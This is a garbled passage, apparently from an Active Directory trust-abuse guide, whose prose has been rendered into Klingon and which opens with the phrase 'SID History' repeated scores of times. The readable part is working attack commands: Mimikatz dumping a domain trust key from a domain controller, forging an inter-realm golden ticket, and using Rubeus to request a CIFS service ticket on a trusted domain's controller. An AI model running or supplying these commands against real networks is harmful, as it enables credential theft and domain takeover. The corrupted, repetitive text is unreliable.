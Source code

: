 (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History) **SID History** (SID History)
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.domain.local
```
{% endhint %}

**ghItlh** **trusted** **key** **vItlhutlh** **TGT impersonating** **user** **current domain**.
```bash
# Get a TGT for the cross-domain privileged user to the other domain
Invoke-Mimikatz -Command '"kerberos::golden /user:<username> /domain:<current domain> /SID:<current domain SID> /rc4:<trusted key> /target:<external.domain> /ticket:C:\path\save\ticket.kirbi"'

# Use this inter-realm TGT to request a TGS in the target domain to access the CIFS service of the DC
## We are asking to access CIFS of the external DC because in the enumeration we show the group was part of the local administrators group
Rubeus.exe asktgs /service:cifs/dc.doamin.external /domain:dc.domain.external /dc:dc.domain.external /ticket:C:\path\save\ticket.kirbi /nowrap

# Now you have a TGS to access the CIFS service of the domain controller
```
### pIm 'ej QaH jImej

#### QaH
